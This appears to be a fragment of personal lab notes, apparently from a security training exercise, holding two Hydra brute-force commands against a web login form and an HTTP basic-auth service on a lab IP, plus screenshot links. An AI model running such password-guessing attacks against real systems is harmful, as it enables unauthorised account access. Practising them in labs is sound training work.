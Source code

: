 ___

```bash
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```


![[Pasted image 20241004131226.png]]

![[Pasted image 20241004131402.png]]

![[Pasted image 20241004131415.png]]

```shell-session
hydra -l basic-auth-user -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 83.136.254.47 http-get / -s 52283
```

![[Pasted image 20241004131840.png]]

![[Pasted image 20241004132934.png]]





